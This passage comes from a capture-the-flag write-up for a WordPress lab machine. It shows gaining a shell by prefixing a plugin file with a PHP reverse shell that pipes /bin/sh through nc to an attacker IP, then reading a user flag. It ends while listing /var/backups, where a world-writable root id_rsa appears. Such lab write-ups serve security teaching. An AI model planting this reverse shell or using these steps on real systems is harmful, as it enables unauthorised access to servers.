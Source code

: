 It was not possible to hook the `404.php` template with a PHP reverse shell but but updating the plugins is possible.

Prefix the existing code of any plugin (e.g. `Hello Dolly > hello.php`) with a reverse shell, as shown below:

```php
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.0.54 4444 >/tmp/f'); ?>
```

Save the page, open a listener (`rlwrap nc -nlvp 4444`) and activate the plugin. It should trigger a shell:

~~~
$ whoami
www-data
$ cd /home/jack/
$ ls
reminder.txt
user.txt
$ cat user.txt
0052f7829e48752f2e7bf50f1231548a
~~~

User flag: `0052f7829e48752f2e7bf50f1231548a`

# #2 - Escalate your privileges to root. Whats the root flag?

*Hint: Python*

Still in jack's home, there is an interesting file that talks about backup and permissions.

~~~
$ cat /home/jack/reminder.txt

Please read the memo on linux file permissions, last time your backups almost got us hacked! Jack will hear about this when he gets back.

~~~

Searching for `backup`, it quickly turns out that there is a backup directory in `/var`:

~~~
$ cd /var/backups/
$ ls -l
total 776
drwxr-xr-x  2 root root     4096 Jan 10 15:05 ./
drwxr-xr-x 14 root root     4096 Jan  9 10:10 ../
-rw-r--r--  1 root root    40960 Jan  9 06:25 alternatives.tar.0
-rw-r--r--  1 root root     9931 Jan  9 10:34 apt.extended_states.0
-rw-r--r--  1 root root      713 Jan  8 11:20 apt.extended_states.1.gz
-rw-r--r--  1 root root       11 Jan  8 11:17 dpkg.arch.0
-rw-r--r--  1 root root       43 Jan  8 11:17 dpkg.arch.1.gz
-rw-r--r--  1 root root      437 Jan  8 11:23 dpkg.diversions.0
-rw-r--r--  1 root root      202 Jan  8 11:23 dpkg.diversions.1.gz
-rw-r--r--  1 root root      207 Jan  9 10:11 dpkg.statoverride.0
-rw-r--r--  1 root root      129 Jan  8 11:19 dpkg.statoverride.1.gz
-rw-r--r--  1 root root   552673 Jan  9 10:34 dpkg.status.0
-rw-r--r--  1 root root   129487 Jan  8 11:20 dpkg.status.1.gz
-rw-------  1 root root      813 Jan 10 10:54 group.bak
-rw-------  1 root shadow    679 Jan 10 10:54 gshadow.bak
-rwxrwxrwx  1 root root     1675 Jan 10 15:05 id_rsa*
-rw-------  1 root root     1626 Jan  9 10:11 passwd.bak
-rw-------  1 root shadow   1066 Jan 10 08:07 shadow.bak
~~~
